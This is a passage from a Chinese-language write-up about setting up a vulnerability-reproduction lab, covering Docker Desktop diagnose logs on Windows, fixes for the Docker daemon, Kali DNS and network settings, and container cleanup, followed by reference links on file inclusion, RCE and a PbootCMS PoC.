   [       common/pkg/diagkit/gather/diagnose/dockerd.go:21 +0x29
   [common/pkg/diagkit/gather/diagnose.(*test).GetResult(0xebf5e0)
   [       common/pkg/diagkit/gather/diagnose/test.go:46 +0x43
   [common/pkg/diagkit/gather/diagnose.Run.func1(0xebf5e0)
   [       common/pkg/diagkit/gather/diagnose/run.go:17 +0x5a
   [common/pkg/diagkit/gather/diagnose.walkOnce.func1(0x7933b7?, 0xebf5e0)
   [       common/pkg/diagkit/gather/diagnose/run.go:140 +0x77
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x2, 0xebf5e0, 0xc00061f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:146 +0x36
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x1, 0xebf660?, 0xc00061f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x0, 0xcb00000012?, 0xc00061f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkOnce(0x874620?, 0xc00061f890)
   [       common/pkg/diagkit/gather/diagnose/run.go:135 +0xcc
   [common/pkg/diagkit/gather/diagnose.Run(0xebfde0, 0xf4?, {0xc00061fb20, 0x1, 0x1})
   [       common/pkg/diagkit/gather/diagnose/run.go:16 +0x1cb
   [main.checkCmd({0xc0000703d0?, 0xc0000703d0?, 0x4?}, {0x0, 0x0})
   [       common/cmd/com.docker.diagnose/main.go:133 +0x105
   [main.main()
   [       common/cmd/com.docker.diagnose/main.go:99 +0x288
   [2022-07-22T09:34:07.577849300Z][com.docker.diagnose.exe][I] (3d257487) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /docker
   [2022-07-22T09:34:07.578885600Z][com.docker.diagnose.exe][W] (3d257487) e77f921d-com.docker.diagnose C<-S NoResponse GET /docker (1.0363ms): Get "http://ipc/docker": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:07.579420200Z][com.docker.diagnose.exe][I] (3d257487-1) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:07.580001100Z][com.docker.diagnose.exe][W] (3d257487-1) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (580.9µs): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:08.591509700Z][com.docker.diagnose.exe][I] (3d257487-2) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:08.591509700Z][com.docker.diagnose.exe][W] (3d257487-2) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (0s): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:09.594460700Z][com.docker.diagnose.exe][I] (3d257487-3) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:09.609375200Z][com.docker.diagnose.exe][W] (3d257487-3) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (14.9145ms): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:10.610642600Z][com.docker.diagnose.exe][I] (3d257487-4) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:10.611623100Z][com.docker.diagnose.exe][W] (3d257487-4) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (980.5µs): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:11.613794000Z][com.docker.diagnose.exe][I] (3d257487-5) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:11.613794000Z][com.docker.diagnose.exe][W] (3d257487-5) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (0s): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:12.616573500Z][com.docker.diagnose.exe][I] (3d257487-6) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:12.617370100Z][com.docker.diagnose.exe][W] (3d257487-6) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (796.6µs): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:13.619221200Z][com.docker.diagnose.exe][I] (3d257487-7) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:13.619221200Z][com.docker.diagnose.exe][W] (3d257487-7) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (0s): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   [2022-07-22T09:34:14.620394600Z][com.docker.diagnose.exe][I] (3d257487-8) e77f921d-com.docker.diagnose C->S VMDockerdAPI GET /ping
   [2022-07-22T09:34:14.620394600Z][com.docker.diagnose.exe][W] (3d257487-8) e77f921d-com.docker.diagnose C<-S NoResponse GET /ping (0s): Get "http://ipc/ping": open \\.\pipe\dockerLifecycleServer: The system cannot find the file specified.
   
   [FAIL] DD0011: are the LinuxKit services running? failed to ping VM diagnosticsd with error: Get "http://ipc/ping": open \\.\pipe\dockerDiagnosticd: The system cannot find the file specified.
   [2022-07-22T09:34:14.640021200Z][com.docker.diagnose.exe][I] ipc.NewClient: cf2b90c6-diagnose -> \\.\pipe\dockerDiagnosticd diagnosticsd
   [common/pkg/diagkit/gather/diagnose.glob..func14()
   [       common/pkg/diagkit/gather/diagnose/linuxkit.go:18 +0x8b
   [common/pkg/diagkit/gather/diagnose.(*test).GetResult(0xebf560)
   [       common/pkg/diagkit/gather/diagnose/test.go:46 +0x43
   [common/pkg/diagkit/gather/diagnose.Run.func1(0xebf560)
   [       common/pkg/diagkit/gather/diagnose/run.go:17 +0x5a
   [common/pkg/diagkit/gather/diagnose.walkOnce.func1(0x7933b7?, 0xebf560)
   [       common/pkg/diagkit/gather/diagnose/run.go:140 +0x77
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x3, 0xebf560, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:146 +0x36
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x2, 0xebf5e0?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x1, 0xebf660?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x0, 0xcb00000012?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkOnce(0x874620?, 0xc00061f890)
   [       common/pkg/diagkit/gather/diagnose/run.go:135 +0xcc
   [common/pkg/diagkit/gather/diagnose.Run(0xebfde0, 0xf4?, {0xc00061fb20, 0x1, 0x1})
   [       common/pkg/diagkit/gather/diagnose/run.go:16 +0x1cb
   [main.checkCmd({0xc0000703d0?, 0xc0000703d0?, 0x4?}, {0x0, 0x0})
   [       common/cmd/com.docker.diagnose/main.go:133 +0x105
   [main.main()
   [       common/cmd/com.docker.diagnose/main.go:99 +0x288
   [2022-07-22T09:34:14.640021200Z][com.docker.diagnose.exe][I] (a501b328) cf2b90c6-diagnose C->S diagnosticsd GET /ping
   [2022-07-22T09:34:14.642010300Z][com.docker.diagnose.exe][W] (a501b328) cf2b90c6-diagnose C<-S NoResponse GET /ping (1.9891ms): Get "http://ipc/ping": open \\.\pipe\dockerDiagnosticd: The system cannot find the file specified.
   
   [PASS] DD0016: is the LinuxKit VM running?
   [FAIL] DD0001: is the application running? Docker is not running
   [SKIP] DD0018: does the host support virtualization?
   [FAIL] DD0002: does the bootloader have virtualization enabled? hypervisorlaunchtype is set to off in the bootloader
   [2022-07-22T09:34:17.776362200Z][com.docker.diagnose.exe][I] ipc.NewClient: eb1ce012-com.docker.diagnose -> \\.\pipe\dockerBackendV2 com.docker.service.exe
   [win/backend/pkg/service.NewClientForPath(...)
   [       win/backend/pkg/service/service.go:44
   [win/backend/pkg/service.NewClient({0x93692a, 0x13}, {0x0, 0x0, 0x0})
   [       win/backend/pkg/service/service.go:33 +0xc5
   [common/pkg/diagkit/gather/diagnose.runBootloaderHasVirtualizationEnabled()
   [       common/pkg/diagkit/gather/diagnose/bootloader_windows.go:15 +0x30
   [common/pkg/diagkit/gather/diagnose.(*test).GetResult(0xebf0e0)
   [       common/pkg/diagkit/gather/diagnose/test.go:46 +0x43
   [common/pkg/diagkit/gather/diagnose.Run.func1(0xebf0e0)
   [       common/pkg/diagkit/gather/diagnose/run.go:17 +0x5a
   [common/pkg/diagkit/gather/diagnose.walkOnce.func1(0x7933b7?, 0xebf0e0)
   [       common/pkg/diagkit/gather/diagnose/run.go:140 +0x77
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x7, 0xebf0e0, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:146 +0x36
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x6, 0xebf260?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x5, 0xebf2e0?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x4, 0xebf460?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x3, 0xebf560?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x2, 0xebf5e0?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x1, 0xebf660?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x0, 0xcb00000012?, 0xc00028f730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkOnce(0x874620?, 0xc00061f890)
   [       common/pkg/diagkit/gather/diagnose/run.go:135 +0xcc
   [common/pkg/diagkit/gather/diagnose.Run(0xebfde0, 0xf4?, {0xc00061fb20, 0x1, 0x1})
   [       common/pkg/diagkit/gather/diagnose/run.go:16 +0x1cb
   [main.checkCmd({0xc0000703d0?, 0xc0000703d0?, 0x4?}, {0x0, 0x0})
   [       common/cmd/com.docker.diagnose/main.go:133 +0x105
   [main.main()
   [       common/cmd/com.docker.diagnose/main.go:99 +0x288
   [2022-07-22T09:34:17.780058700Z][com.docker.diagnose.exe][I] (9bb1a74f) eb1ce012-com.docker.diagnose C->S com.docker.service.exe GET /hyperv/bootloader
   [2022-07-22T09:34:19.021665100Z][com.docker.diagnose.exe][I] (9bb1a74f) eb1ce012-com.docker.diagnose C<-S be10cb41-ServiceAPI GET /hyperv/bootloader (1.2410606s): 0xc00006f4b0
   
   [PASS] DD0017: can a VM be started?
   [PASS] DD0024: is WSL installed?
   [PASS] DD0021: is the WSL 2 Windows Feature enabled?
   [PASS] DD0022: is the Virtual Machine Platform Windows Feature enabled?
   [FAIL] DD0025: are WSL distros installed? WSL Distribution docker-desktop is missing
   [PASS] DD0026: is the WSL LxssManager service running?
   [FAIL] DD0029: is the WSL 2 Linux filesystem corrupt? exit status 0xffffffff
   [FAIL] DD0035: is the VM time synchronized? exit status 0xffffffff
   [PASS] DD0015: are the binary symlinks installed?
   error during connect: In the default daemon configuration on Windows, the docker client must be run with elevated privileges to connect.: Get "http://%2F%2F.%2Fpipe%2Fdocker_engine/v1.24/containers/json": open //./pipe/docker_engine: The system cannot find the file specified.
   [FAIL] DD0003: is the Docker CLI working? exit status 1
   [PASS] DD0013: is the $PATH ok?
   [PASS] DD0005: is the user in the docker-users group?
   [FAIL] DD0007: is the backend responding? failed to ping com.docker.backend with error: Get "http://ipc/ping": open \\.\pipe\dockerBackendApiServer: The system cannot find the file specified.
   [2022-07-22T09:34:23.386044500Z][com.docker.diagnose.exe][I] ipc.NewClient: abfc0f60-diagnose -> \\.\pipe\dockerBackendApiServer BackendAPI
   [common/pkg/backend.NewClientForPath({0x92ce62?, 0x1?}, {0xc000090e20?, 0x792409?})
   [       common/pkg/backend/client.go:166 +0x3d
   [common/pkg/backend.NewClient({0x92ce62, 0x8})
   [       common/pkg/backend/client.go:161 +0x50
   [common/pkg/diagkit/gather/diagnose.glob..func9()
   [       common/pkg/diagkit/gather/diagnose/ipc.go:25 +0x25
   [common/pkg/diagkit/gather/diagnose.(*test).GetResult(0xebf960)
   [       common/pkg/diagkit/gather/diagnose/test.go:46 +0x43
   [common/pkg/diagkit/gather/diagnose.Run.func1(0xebf960)
   [       common/pkg/diagkit/gather/diagnose/run.go:17 +0x5a
   [common/pkg/diagkit/gather/diagnose.walkOnce.func1(0x2?, 0xebf960)
   [       common/pkg/diagkit/gather/diagnose/run.go:140 +0x77
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x1, 0xebf960, 0xc000315730)
   [       common/pkg/diagkit/gather/diagnose/run.go:146 +0x36
   [common/pkg/diagkit/gather/diagnose.walkDepthFirst(0x0, 0xcb00000012?, 0xc000315730)
   [       common/pkg/diagkit/gather/diagnose/run.go:149 +0x73
   [common/pkg/diagkit/gather/diagnose.walkOnce(0x874620?, 0xc00061f890)
   [       common/pkg/diagkit/gather/diagnose/run.go:135 +0xcc
   [common/pkg/diagkit/gather/diagnose.Run(0xebfde0, 0xf4?, {0xc00061fb20, 0x1, 0x1})
   [       common/pkg/diagkit/gather/diagnose/run.go:16 +0x1cb
   [main.checkCmd({0xc0000703d0?, 0xc0000703d0?, 0x4?}, {0x0, 0x0})
   [       common/cmd/com.docker.diagnose/main.go:133 +0x105
   [main.main()
   [       common/cmd/com.docker.diagnose/main.go:99 +0x288
   
   2022/07/22 17:34:30 exit status 0xffffffff
   ```

   同时使用 cmd 运行的时候也报错，看了一下和自诊断工具报的错基本一致：系统找不到特定的文件

   ```cmd
   error during connect: In the default daemon configuration on Windows, the docker client must be run with elevated privileges to connect.: Get "http://%!F(MISSING)%!F(MISSING).%!F(MISSING)pipe%!F(MISSING)docker_engine/v1.24/version": open //./pipe/docker_engine: The system cannot find the file specified.: driver not connecting
   ```

   解决：

   查找资料发现由于在 Windows 上的默认守护程序配置中，docker 客户端必须运行提升才能连接。

   **管理员**权限下使用以下命令提升访问权限

   ```shell
   cd "C:\Program Files\Docker\Docker"
   ./DockerCli.exe -SwitchDaemon
   ```

   运行成功

3. Kali 执行 `apt update` 时网络域名解析出错。同时无法通过 `ping baidu.com` ping 通百度

   解决方法：首先确保解析文件有 dns

   ```shell
   vim /etc/resolv.conf 
   
   #添加如下dns
   nameserver 202.96.134.133
   
   nameserver 114.114.114.114
   ```

   检查网络，确保 NAT 网卡的设置和启动

   

   发现 `eth1` 网卡没有 IP 地址，设置 NAT 网卡对应的 `eth1` 自动获取 IP 地址

   ```sh
   vim /etc/network/interfaces
   
   #添加如下内容
   auto eth1
   iface eth1 inet dhcp
   
   #重启网络
   systemctl restart networking 
   ```

   IP 地址设置成功

   网络可以 ping 通，问题解决

4. 漏洞破解过程中执行 poc 后 docker 内系统发生变化

   尝试删除镜像时

   ```Sh
   #查看现有镜像
   docker image
   
   #删除镜像
   docker rmi image_id
   ```

   

   根据报错提示：有正在执行的容器在使用该镜像。

   ```sh
   #查看现有容器
   docker ps -a
   
   #停用以及删除容器
   docker stop container_id
   docker rm container_id -f
   
   #停用及刪除所有 Container 可以透過以下指令
   docker stop $(docker ps -a -q)
   docker rm $(docker ps -a -q)
   ```

   

   成功移除镜像，再重新搭建镜像环境即可。

## 五、参考链接

- [docker compose](https://www.runoob.com/docker/docker-compose.html)
- [windows11 安装 docker ](https://blog.csdn.net/zou_hailin226/article/details/121278799?spm=1001.2101.3001.6650.2&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-2-121278799-blog-125292275.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-2-121278799-blog-125292275.pc_relevant_default&utm_relevant_index=3)
- [docker 桌面启动闪退问题汇总](https://github.com/docker/for-win/issues/1825)
- [docker 无法在 Windows 启动](https://stackoverflow.com/questions/40459280/docker-cannot-start-on-windows)
- [ubuntu20.04 上安装 Vscode ](https://www.myfreax.com/how-to-install-visual-studio-code-on-ubuntu-20-04/)
- [文件包含绕过](https://websec.readthedocs.io/zh/latest/vuln/fileinclude.html)
- [浅谈文件包含漏洞](https://www.freebuf.com/articles/web/182280.html)
- [RCE 漏洞原理、攻击与防御](https://blog.csdn.net/F2444790591/article/details/125379585?spm=1001.2101.3001.6650.9&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-9-125379585-blog-108923214.pc_relevant_multi_platform_whitelistv3&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-9-125379585-blog-108923214.pc_relevant_multi_platform_whitelistv3&utm_relevant_index=13)
- [PHP 动态特性的捕捉与逃逸](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)
- [PbootCMS 任意代码执行(从v1.0.1到v2.0.9)的前世今生](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/books/PbootCMS%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(%E4%BB%8Ev1.0.1%E5%88%B0v2.0.9)%E7%9A%84%E5%89%8D%E4%B8%96%E4%BB%8A%E7%94%9F.pdf)
- [网络安全 payload、shellcode、exp、poc 详解](https://blog.csdn.net/qq_43442524/article/details/102225751)
